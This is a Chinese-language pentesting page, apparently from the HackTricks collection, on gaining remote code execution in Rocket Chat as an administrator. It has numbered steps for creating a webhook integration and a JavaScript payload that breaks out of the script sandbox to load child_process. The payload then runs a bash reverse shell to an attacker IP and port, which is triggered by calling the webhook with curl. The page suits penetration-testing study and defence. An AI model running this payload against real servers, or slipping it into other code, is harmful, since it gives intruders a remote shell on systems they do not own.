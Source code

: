 # Rocket Chat

{{#include ../../banners/hacktricks-training.md}}

## RCE

如果你是 Rocket Chat 的管理员，你可以获得 RCE。

- 转到 **`Integrations`**，选择 **`New Integration`**，并选择任意：**`Incoming WebHook`** 或 **`Outgoing WebHook`**。
- `/admin/integrations/incoming`

<figure><img src="../../images/image (266).png" alt=""><figcaption></figcaption></figure>

- 根据 [docs](https://docs.rocket.chat/guides/administration/admin-panel/integrations)，两者都使用 ES2015 / ECMAScript 6 ([基本上是 JavaScript](https://codeburst.io/javascript-wtf-is-es6-es8-es-2017-ecmascript-dca859e4821c)) 来处理数据。所以让我们获取一个 [rev shell for javascript](../../generic-hacking/reverse-shells/linux.md#nodejs)，例如：
```javascript
const require = console.log.constructor("return process.mainModule.require")()
const { exec } = require("child_process")
exec("bash -c 'bash -i >& /dev/tcp/10.10.14.4/9001 0>&1'")
```
- 配置 WebHook（频道和以用户名发布必须存在）：

<figure><img src="../../images/image (905).png" alt=""><figcaption></figcaption></figure>

- 配置 WebHook 脚本：

<figure><img src="../../images/image (572).png" alt=""><figcaption></figcaption></figure>

- 保存更改
- 获取生成的 WebHook URL：

<figure><img src="../../images/image (937).png" alt=""><figcaption></figcaption></figure>

- 使用 curl 调用它，你应该收到 rev shell


{{#include ../../banners/hacktricks-training.md}}
